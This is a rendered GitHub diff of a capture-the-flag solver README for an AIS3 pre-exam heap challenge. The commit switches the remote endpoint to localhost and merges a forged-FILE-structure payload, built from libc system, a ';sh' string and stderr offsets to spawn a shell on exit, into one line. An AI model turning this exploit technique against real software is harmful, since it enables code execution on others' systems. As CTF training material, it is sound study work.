

Before and after one commit to Naupjjin/2025-AIS3-pre-exam-challenge, a Markdown page: MyGO-schedule-manager-beta/solver/README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/MyGO-schedule-manager-beta/solver/README.md
+++ b/MyGO-schedule-manager-beta/solver/README.md
@@ -186,7 +186,7 @@ if REMOTE_LOCAL=="y":
     debug_init()
 
 else:
-    REMOTE_INFO=split_nc("nc naup.com 2000")
+    REMOTE_INFO=split_nc("nc 127.0.0.1 51001")
 
     REMOTE_IP=REMOTE_INFO[0]
     REMOTE_PORT=int(REMOTE_INFO[1])
@@ -250,16 +250,10 @@ add(b'Tomorin')
 add(b'Soyorin')
 add(b'Rana')
 
-payload2 =  p32(0xfbad0101) + b";sh\x00" + b'\x00' * (0x50)
-payload2 += p64(libc_system) + b'\x00' * (0x28)
-payload2 += p64(IO_STDERR - 0x10) + b'\x00' * (0x10)
-payload2 += p64(IO_STDERR - 0x10) + b'\x00' * 0x18
-payload2 += p32(1) + b'\x00' * (0xc)
-payload2 += p64(IO_STDERR - 0x10) + p64(libcbase + 0x217078)
+payload2 =  p32(0xfbad0101) + b";sh\x00" + b'\x00' * (0x50) + p64(libc_system) + b'\x00' * (0x28) + p64(IO_STDERR - 0x10) + b'\x00' * (0x10) + p64(IO_STDERR - 0x10) + b'\x00' * 0x18 + p32(1) + b'\x00' * (0xc) + p64(IO_STDERR - 0x10) + p64(libcbase + 0x217078)
 
 edit(3, payload2)
 exitf()
-
 
 NAUPINFO("LEAKLIBC", hex(leaklibc))
 NAUPINFO("LIBCBASE", hex(libcbase))
```
